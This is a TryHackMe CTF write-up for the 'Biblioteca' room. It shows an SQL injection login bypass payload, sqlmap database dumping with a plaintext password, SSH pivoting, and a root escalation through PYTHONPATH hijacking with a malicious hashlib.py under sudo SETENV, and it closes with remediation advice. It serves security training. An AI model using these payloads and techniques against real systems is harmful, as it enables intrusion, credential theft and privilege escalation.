







# TryHackMe - Biblioteca CTF Writeup

> **Room:** [Biblioteca] (https://tryhackme.com/room/biblioteca)
> **Difficulty:** Medium
> **Description:** "Shhh. Be very quiet, no shouting inside the biblioteca"

---


## Overview

Let’s root Biblioteca room in TryHackMe. The room involves SQLi, credential harvesting, and PrivEsc.

---


## Enumeration

### Initial Nmap Scan

Let's start with port scanning:

```bash
nmap -Pn -sV 10.49.147.251
```

**Results:** 
- Port 22: SSH (OpenSSH)
- Port 8000: HTTP (Web server)


Two services running - let's investigate the web application first. 

---

## Web Application Analysis

### Initial Discovery

Visiting `http://10.49.174.251:8000` reveals a login page:




Time to enumerate directories 

### Directory Enumeration

Using Gobuster to find hidden endpoints:

```bash
gobuster dir -u http://10.49.174.251:8000 \ 
    -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
    -t 150
```
**Discovered Pages**
- `/login` - Login page
- `/register` - User registration
- `/logout` - Logout functionality


### Registration & Initial Access

I registered a new account to gain access to the application. After logging in, I was greeted with a simple index page:



Not much useful functionnality visible on the surface - time to dig deeper.

---

## SQL Injection Exploitation

### Testing for SQLi

Started testing SQL injection vulnerabilities:

1. **Username field**: Tried basic SQLi payloads - no luck
2. **Password field**: Bingo! 🎯

### Authentication Bypass 

Using a classic SQL injection payload in the password field:

```sql
1' or '1'='1
```

This successfully bypassed authentication and logged me into an account belonging to user `smokey`.

### Analyzing the Request with Burp Suite

To better understand what's happennig, I intercepted the login request with Burp Suite:



The interesting part was the parameter structure at the bottom: 

```
username=&password=1%27+OR+%271%27%3D%271%27
```

This confirmed the SQLi vulnerability and gave me insight into how the backend was processing credentials.

---

## Automated SQLi with SQLmap

now that we've confirmed SQLi, let's automate the data extraction with SQLmap.

### Capturing the Request

1. Saved the login request from Burp Suite to a file (e.g., `biblioteca-burpsuit`)
2. Ran SQLmap with the captured request:

```bash
sqlmap -r biblioteca-burpsuit --dbs --dump
```

This dumped the database contents, revealing the `website` database with a `users` table:



**Credentials discovered:**
- **smokey** - `smokey@email.boop` : `My_P@ssW0rd123`
- **hazel** - (another user in the system)

---

## SSH Access & Lateral Movement

### Initial SSH Login (User: smokey)

Connected via SSH using the credentials found:

```bash
ssh smokey@10.49.174.251
```



**Findings:**
- Smokey's home directory was mostly empty
- No sudo privileges (`Sorry, user smokey may not run sudo on ip-10-49-174-251`)
- Another user exists: **hazel**
- Not the target user - need to pivot!

### Switching to User: hazel

There was another user on the system: **hazel**. Using credentials obtained from the SQLmap dump, I switched to hazel:

```bash
su hazel
# or
ssh hazel@10.49.174.251
```

**User Flag:** Found in hazel's home directory! 

---

## Privilege Escalation

### Checking Privileges

Hazel couldn't directly access `/root`, so I checked what privileges were available:

```bash
sudo -l
```



**Jackpot!** Hazel can run the following command as root with NOPASSWD:

```
(root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py
```

This is a classic Python library hijacking opportunity with the `SETENV` permission!


### Path to Root

The `SETENV` sudo permission allows us to set environment variables when running the command. We can exploit this by hijacking the `PYTHONPATH` to load a malicious library.

**Exploitation Steps:**

1. Create a malicious Python script in `/tmp`:

```bash
echo 'import os; os.system("/bin/bash")' > /tmp/hashlib.py
```

2. Run the hasher.py script with modified PYTHONPATH:

```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py
```



**Success!** We got a root shell and can now read the root flag:

```bash
cd /root
cat root.txt
```

The flag reveals: `THM{xxx-xxx-xxxx}`

---

## Flags

**User Flag:** Located in `/home/hazel/user.txt`  
**Root Flag:** `THM{xxx-xxx-xxxx}` (Located in `/root/root.txt`)

---

## Key Takeaways

1. **Always test both username and password fields** for SQL injection - sometimes only one is vulnerable
2. **SQLmap is your friend** for automated database extraction once you've confirmed SQLi
3. **Lateral movement matters** - the first user you compromise isn't always the target
4. **Check sudo privileges immediately** after gaining access to a new user account
5. **SETENV + NOPASSWD = Python library hijacking** - When you can set environment variables with sudo, you can hijack Python's library loading with `PYTHONPATH`

---

## Tools Used

- `nmap` - Port scanning
- `gobuster` - Directory enumeration
- `Burp Suite` - Request interception & analysis
- `sqlmap` - Automated SQL injection exploitation
- `ssh` - Remote access

---

## Remediation

For defenders, this box highlights several critical vulnerabilities:

1. **SQL Injection**: Parameterized queries/prepared statements should be used to prevent SQLi
2. **Weak Passwords**: Implement strong password policies
3. **Privilege Separation**: Limit sudo permissions to only what's necessary
4. **SETENV Permissions**: Never allow `SETENV` in sudoers unless absolutely necessary - it enables environment variable manipulation and library hijacking
5. **Database Exposure**: Credentials should never be stored in plaintext

---